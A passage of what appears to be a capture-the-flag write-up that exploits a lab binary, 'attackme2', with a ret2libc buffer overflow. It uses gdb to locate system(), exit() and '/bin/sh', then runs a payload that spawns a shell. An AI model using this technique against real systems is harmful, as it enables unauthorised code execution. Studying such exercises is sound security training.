 <p>Remember the variables on the memory stack is not loaded until you run the program, so we can first just feed some random input to the program to extract our address.</p>

<pre class="prettyprint"><code class=" hljs mel">(gdb) run <span class="hljs-variable">$(</span><span class="hljs-keyword">python</span> -c <span class="hljs-string">'print "\x90 "*3'</span>)
Starting program: /c0re/attackme2 <span class="hljs-variable">$(</span><span class="hljs-keyword">python</span> -c <span class="hljs-string">'print "\x90 "*3'</span>)
Breakpoint <span class="hljs-number">1</span>, <span class="hljs-number">0x080485e4</span> <span class="hljs-keyword">in</span> lolcat ()</code></pre>

<p>We already know the two system call <code>system()</code> and <code>exit()</code> must be somewhere on the stack stored with variable names <code>system</code> and <code>exit</code>, we can just do:</p>

<pre class="prettyprint"><code class=" hljs perl">(gdb) p <span class="hljs-keyword">system</span>
<span class="hljs-variable">$1</span> = {&lt;text variable, <span class="hljs-keyword">no</span> debug info&gt;} <span class="hljs-number">0xf7e4c840</span> &lt;<span class="hljs-keyword">system</span>&gt;
(gdb) p <span class="hljs-keyword">exit</span>
<span class="hljs-variable">$2</span> = {&lt;text variable, <span class="hljs-keyword">no</span> debug info&gt;} <span class="hljs-number">0xf7e407f0</span> &lt;<span class="hljs-keyword">exit</span>&gt;
</code></pre>

<p>How about the address of the string <code>"/bin/sh"</code>? If the environment variable isn’t cleared out buffer overflow we can make use of it. However, this smart programmer somehow wrote a program to defend against injection through environment table but not a buffer overflow. OK. Let’s just do a search in <code>gdb</code></p>

<pre class="prettyprint"><code class=" hljs livecodeserver">(gdb) find &amp;<span class="hljs-keyword">system</span>,+<span class="hljs-number">9999999</span>,<span class="hljs-string">"/bin/sh"</span>
<span class="hljs-number">0xf7f6ed48</span>
warning: Unable <span class="hljs-built_in">to</span> access <span class="hljs-number">16000</span> <span class="hljs-keyword">bytes</span> <span class="hljs-operator">of</span> target memory <span class="hljs-keyword">at</span> <span class="hljs-number">0xf7fc8ad0</span>, halting search.
<span class="hljs-number">1</span> pattern found.</code></pre>

<p>LOL that was easy. Now we have the three addresses. </p>

<pre class="prettyprint"><code class=" hljs perl"> <span class="hljs-number">1</span>. <span class="hljs-keyword">system</span>():<span class="hljs-number">0xf7e4c840</span>
 <span class="hljs-number">2</span>. <span class="hljs-keyword">exit</span>():<span class="hljs-number">0xf7e407f0</span> 
 <span class="hljs-number">3</span>. <span class="hljs-string">"/bin/sh"</span>:<span class="hljs-number">0xf7f6ed48</span></code></pre>

<p>Time to craft the payload. <br>
 <code>$(python -c 'print "\x90"*9+" "+"G"*165+" \x40\xc8\xe4\xf7\xf0\x07\xe4\xf7 <br>
 \x48\xed\xf6\xf7"')</code> <br>
Note the space between three groups of arguments, and <code>G</code> is the alphanumeric <code>nop</code>, well actually you don’t really care about it anyway.  <br>
Let’s run it. <br>
<code>user@host:/c0re$ /c0re/attackme2 $(python -c 'print "\x90"*9+" "+"G"*165+" \x40\xc8\xe4\xf7\xf0\x07\xe4\xf7\x48\xed\xf6\xf7"')</code></p>
